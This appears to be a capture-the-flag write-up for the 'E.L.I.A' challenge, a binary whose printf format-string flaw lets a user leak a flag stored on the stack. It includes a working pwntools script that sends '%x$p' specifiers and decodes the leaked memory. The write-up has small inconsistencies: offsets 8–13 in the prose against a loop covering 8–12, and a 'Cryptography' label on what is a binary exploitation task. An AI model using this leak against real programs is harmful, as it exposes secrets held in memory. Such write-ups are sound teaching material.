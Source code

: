 # E.L.I.A
## Challenge
This challenge first reads the flag from the file `flag.txt` and saves it on the **stack**. Then, it requests input from the user and subsequently prints it insecurely using `printf` without any **defined format**.

This executable can therefore be exploited if the correct offsets on the stack of the flag (from 8 to 13) are found and used together with `%p` in the format `%x$p` where *x* is the offset.

## Solution
```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn3')

r.recvuntil(b'?\n')
PAYLOAD = b''
for i in range(8, 13):
    PAYLOAD += f'%{i}$p'.encode()

r.sendline(PAYLOAD)
flag = [int(i, 16) for i in r.recvline().decode().split('0x')[1:]]
pascal = ''
for i in flag:
    pascal += i.to_bytes(8, 'little').decode()

pascal = pascal.replace('\x00', '')
print(pascal)
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Cryptography